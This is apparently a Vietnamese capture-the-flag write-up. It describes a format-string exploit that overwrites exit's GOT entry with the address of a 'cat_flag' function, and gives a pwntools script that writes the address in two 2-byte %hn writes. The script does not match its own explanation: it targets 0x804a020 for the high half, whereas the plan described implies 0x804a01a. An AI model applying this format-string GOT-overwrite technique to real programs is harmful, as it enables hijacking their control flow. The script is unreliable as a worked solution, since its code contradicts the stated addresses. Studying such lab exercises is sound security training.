

# solution

ghi đè địa chỉ hàm `cat_flag` vào địa chỉ của exit trong bảng got.
`cat_flag` có địa chỉ `0x0804849b`. Ta chia địa chỉ này thành 2 phần và ghi 2 lần. Mỗi lần ghi 2 byte. `0x0804` sẽ được ghi trước do số này có giá trị nhỏ hơn.



`exit@got` có địa chỉ: `0x804a018`

## chạy là ra

```python
from pwn import *
#context.log_level = 'debug'
p = process("./Formatstring-write-got-without-leak")

# write 0x0804849b to 0x804a018

payload = p32(0x804a020)
payload += p32(0x804a018)
payload += "%{}c%4$hn".format(0x0804 -8).encode()
payload += "%{}c%5$hn".format(0x849b - 0x0804).encode()


p.send(payload)
# p.recvuntil(b'end')
p.interactive()
```
